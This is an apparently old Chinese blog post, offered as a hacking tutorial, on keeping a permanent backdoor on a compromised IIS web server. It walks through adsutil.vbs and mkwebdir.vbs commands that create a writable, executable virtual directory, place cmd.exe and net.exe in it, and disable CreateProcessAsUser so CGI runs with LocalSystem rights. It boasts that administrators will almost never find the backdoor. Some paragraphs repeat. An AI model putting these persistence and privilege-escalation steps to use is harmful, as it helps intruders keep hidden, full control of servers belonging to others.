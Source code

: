 ```yaml
---
layout: post
category: binghe-code-hack
title: 真正的IIS永远的后门解密
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 真正的IIS永远的后门解密
lock: need
---
```


# 真正的IIS永远的后门解密

IIS是比较流行的www服务器，设置不当漏洞就很多。入侵iis服务器后留下后门，以后就可以随时控制。一般的后门程序都是打开一个特殊的端口来监听，比如有nc,ntlm,rnc等等都是以一种类telnet的方式在服务器端监听远程的连接控制。

IIS是比较流行的www服务器，设置不当漏洞就很多。入侵iis服务器后留下后门，以后就可以随时控制。一般的后门程序都是打开一个特殊的端口来监听，比如有nc,ntlm,rnc等等都是以一种类telnet的方式在服务器端监听远程的连接控制。不过一个比较防范严密的www站点（他们的管理员吃了苦头后）一般通过防火墙对端口进行限制，这样除了管理员开的端口外，其他端口就不能连接了。但是80端口是不可能关闭的（如果管理员没有吃错药）。那么我们可以通过在80端口留后门，来开启永远的后门。

当IIS启动CGI应用程序时，缺省用CreateProcessAsUser API来创建该CGI的新Process,该程序的安全上下文就由启动该CGI的用户决定。一般匿名用户都映射到IUSR_computername这个账号，当然可以由管理员改为其他的用户。或者由浏览器提供一个合法的用户。两者的用户的权限都是比较低，可能都属于guest组的成员。其实我们可以修改iis开启CGI的方式，来提高权限。我们来看iis主进程本身是运行在localsystem账号下的，所以我们就可以得到最高localsystem的权限。

入侵web服务器后，一般都可以绑定一个cmd到一个端口来远程控制该服务器。这时可以有GUI的远程控制，比如338Array，或者类telnet text方式的控制，比如rnc。nc肯定是可以用的,其实这也足够了。

1. telnet到服务器

2.cs cript.exe adsutil.vbs enum w3svc/1/root

```bash
KeyType : (STRING) "IIsWebVirtualDir"
AppRoot : (STRING) "/LM/W3SVC/1/ROOT"
AppFriendlyName : (STRING) "默认应用程序"
AppIsolated : (INTEGER) 2
AccessRead : (BOOLEAN) True
AccessWrite : (BOOLEAN) False
AccessExecute : (BOOLEAN) False
Accesss cript : (BOOLEAN) True
AccessSource : (BOOLEAN) False
AccessNoRemoteRead : (BOOLEAN) False
AccessNoRemoteWrite : (BOOLEAN) False
AccessNoRemoteExecute : (BOOLEAN) False
AccessNoRemotes cript : (BOOLEAN) False
HttpErrors : (LIST) (32 Items)
"400,*,FILE,C:\WINNT\help\iisHelp\common\400.htm"
"401,1,FILE,C:\WINNT\help\iisHelp\common\401-1.htm"
"401,2,FILE,C:\WINNT\help\iisHelp\common\401-2.htm"
"401,3,FILE,C:\WINNT\help\iisHelp\common\401-3.htm"
"401,4,FILE,C:\WINNT\help\iisHelp\common\401-4.htm"
"401,5,FILE,C:\WINNT\help\iisHelp\common\401-5.htm"
"403,1,FILE,C:\WINNT\help\iisHelp\common\403-1.htm"
"403,2,FILE,C:\WINNT\help\iisHelp\common\403-2.htm"
"403,3,FILE,C:\WINNT\help\iisHelp\common\403-3.htm"
"403,4,FILE,C:\WINNT\help\iisHelp\common\403-4.htm"
"403,5,FILE,C:\WINNT\help\iisHelp\common\403-5.htm"
"403,6,FILE,C:\WINNT\help\iisHelp\common\403-6.htm"
"403,7,FILE,C:\WINNT\help\iisHelp\common\403-7.htm"
"403,8,FILE,C:\WINNT\help\iisHelp\common\403-8.htm"
"403,9,FILE,C:\WINNT\help\iisHelp\common\403-9.htm"
"403,10,FILE,C:\WINNT\help\iisHelp\common\403-10.htm"
"403,11,FILE,C:\WINNT\help\iisHelp\common\403-11.htm"
"403,12,FILE,C:\WINNT\help\iisHelp\common\403-12.htm"
"403,13,FILE,C:\WINNT\help\iisHelp\common\403-13.htm"
"403,15,FILE,C:\WINNT\help\iisHelp\common\403-15.htm"
"403,16,FILE,C:\WINNT\help\iisHelp\common\403-16.htm"
"403,17,FILE,C:\WINNT\help\iisHelp\common\403-17.htm"
"404,*,FILE,C:\WINNT\help\iisHelp\common\404b.htm"
"405,*,FILE,C:\WINNT\help\iisHelp\common\405.htm"
"406,*,FILE,C:\WINNT\help\iisHelp\common\406.htm"
"407,*,FILE,C:\WINNT\help\iisHelp\common\407.htm"
"412,*,FILE,C:\WINNT\help\iisHelp\common\412.htm"
"414,*,FILE,C:\WINNT\help\iisHelp\common\414.htm"
"500,12,FILE,C:\WINNT\help\iisHelp\common\500-12.htm"
"500,13,FILE,C:\WINNT\help\iisHelp\common\500-13.htm"
"500,15,FILE,C:\WINNT\help\iisHelp\common\500-15.htm"
"500,100,URL,/iisHelp/common/500-100.asp"

FrontPageWeb : (BOOLEAN) True
Path : (STRING) "c:\inetpub\wwwroot"
AccessFlags : (INTEGER) 513
[/w3svc/1/root/localstart.asp]
[/w3svc/1/root/_vti_pvt]
[/w3svc/1/root/_vti_log]
[/w3svc/1/root/_private]
[/w3svc/1/root/_vti_txt]
[/w3svc/1/root/_vti_s cript]
[/w3svc/1/root/_vti_cnf]
[/w3svc/1/root/_vti_bin]
```

不要告诉我你不知道上面的输出是什么！！！！
现在我们心里已经有底了，是不是！呵呵 管理员要倒霉了

3. mkdir c:\inetpub\wwwroot\dir1
4. cs cript.exe mkwebdir.vbs -c MyComputer -w "Default Web Site" -v "Virtual Dir1","c:\inetpub\wwwroot\dir1"

这样就建好了一个虚目录：Virtual Dir1
你可以用 1 的命令看一下

这样就建好了一个虚目录：Virtual Dir1
你可以用 1 的命令看一下

5.接下来要改变一下Virtual Dir1的属性为execute

```bash
cs cript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accesswrite "true" -s:
cs cript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accessexecute "true" -s:
```

现在你已经可以upload 内容到该目录，并且可以运行。你也可以把cmd.exe net.exe直接拷贝到虚拟目录的磁盘目录中。

现在你已经可以upload 内容到该目录，并且可以运行。你也可以把cmd.exe net.exe直接拷贝到虚拟目录的磁盘目录中。

6.以下命令通过修改iis metabase 来迫使iis以本身的安全环境来创建新的CGI process

```bash
Cs cript adsutil.vbs set /w3svc/1/root/[your directory]/createprocessasuser false
注释：cs cript windows s cript host.
adsutil.vbs windows iis administration s cript
```

后面是 iis metabase path
这样的后门几乎是无法查出来的，除非把所有的虚目录察看一遍（如果管理员写好了遗书，那他就去查吧）

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
